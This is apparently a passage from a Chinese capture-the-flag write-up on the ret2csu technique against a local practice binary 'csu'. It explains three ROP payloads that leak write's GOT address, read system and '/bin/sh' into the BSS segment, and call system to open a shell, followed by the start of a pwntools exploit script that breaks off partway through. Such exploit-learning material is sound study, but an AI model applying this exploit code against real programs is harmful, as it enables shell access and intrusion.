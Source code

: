 第一个 payload

```bash
这里是为了泄露 write 的 got 表地址
r12 -> 1
r13 ->write_got
r14 ->0x8
r15 ->write_got
ret ->gadget2
p64(1)*7 ->主要是上面我说的 padding ->新一轮的 rsp+8,rbx,rbp,r12,r13,r14,r15
```

第二个 payload

```bash
这里是为了调用 read 函数从而将 system,binsh 写入 bss 段
r12 ->0
r13 ->bss 段地址
r14 ->0x20
r15 ->read_got
```

第三个 payload

```bash
这里是传入我们写入 system 和 binsh 的地址
r12 ->binsh 的地址 ->bss 段地址为 0x404060->我们传入的是 system+binsh，所以 binsh 的地址为 0x404068
r13 ->0
r14 ->0
r15 ->system
```

exp:

```bash
from pwn import *
context.log_level='debug'
p=process('./csu')
elf = ELF('./csu')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

def ret_csu(r12, r13, r14, r15, last):
    payload = offset * 'a'  
    #构造栈溢出的 padding
    payload += p64(first_csu) + 'a' * 8    
    #gadgets1 的地址
    payload += p64(0) + p64(1)
    #rbx=0, rbp=1
    payload += p64(r12)
    #call 调用的地址
```